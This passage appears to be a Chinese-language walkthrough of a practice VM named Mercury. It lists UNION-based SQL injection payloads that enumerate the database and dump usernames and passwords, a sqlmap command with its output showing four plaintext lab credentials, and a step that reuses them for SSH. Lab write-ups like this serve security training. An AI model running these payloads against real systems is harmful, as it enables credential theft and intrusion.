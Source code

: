 #### sql注入

- 首先获取当前用户的数据库，版本信息，以及当前连接的用户-->`union select group_concat(database(),version(),user()) -- '`
- ![image-20230820105040822](https://raw.githubusercontent.com/r0o983/images/main/202308201050886.png)
- 查看系统中存在有那几个库`union select group_concat(schema_name) from information_schema.schemate -- '` --> schemate（表），当前表内存的数据是当前mysql系统中所有的数据库信息。
- ![image-20230820105737832](https://raw.githubusercontent.com/r0o983/images/main/202308201057911.png)
- 查找当前数据库`mercury`中存在那几张表` union select group_concat(table_name) from information_schema.tables where table_schema = 'mercury' -- '`--> table_schema(列)，information_schema.tables这张表内的数据中的字段为table_schema中查找属于mercury这一列的数据
- ![image-20230820110324903](https://raw.githubusercontent.com/r0o983/images/main/202308201103964.png)
- 查找当前表`facts`和`users`中的列信息`union select group_concat(column_name) from information_schema.columns where table_name= 'users' -- '`--> table_name(列），当前columns表中查询table_name这一列中属于users这一列的信息
- ![image-20230820112457542](https://raw.githubusercontent.com/r0o983/images/main/202308201124602.png)
- 读取`users`表中三个字段的值`union select group_concat(id,0x3a,username,0x3a,password) from users -- '`
- ![image-20230820125940954](https://raw.githubusercontent.com/r0o983/images/main/202308201259034.png)
- 尝试使用已获得的账号密码进行ssh登录



#### sqlmap

- 参数：
  1. dbs：指定数据库类型
  2. -D 指定数据库名
  3. -T 指定表名
  4. --dump 导出已获得的信息
  5. -batch 不需要进行询问，由系统进行判断

- ```shell
  └─$ sudo sqlmap -u http://192.168.56.102:8080/mercuryfacts/5 --dbs mysql  -D mercury -T users --dump -batch 
  
  [20:49:14] [INFO] the back-end DBMS is MySQL
  back-end DBMS: MySQL >= 5.6
  [20:49:14] [INFO] fetching database names
  available databases [2]:
  [*] information_schema
  [*] mercury
  
  [20:49:14] [INFO] fetching columns for table 'users' in database 'mercury'
  [20:49:14] [WARNING] reflective value(s) found and filtering out
  [20:49:14] [INFO] fetching entries for table 'users' in database 'mercury'
  Database: mercury
  Table: users
  [4 entries]
  +----+-------------------------------+-----------+
  | id | password                      | username  |
  +----+-------------------------------+-----------+
  | 1  | johnny1987                    | john      |
  | 2  | lovemykids111                 | laura     |
  | 3  | lovemybeer111                 | sam       |
  | 4  | mercuryisthesizeof0.056Earths | webmaster |
  +----+-------------------------------+-----------+
  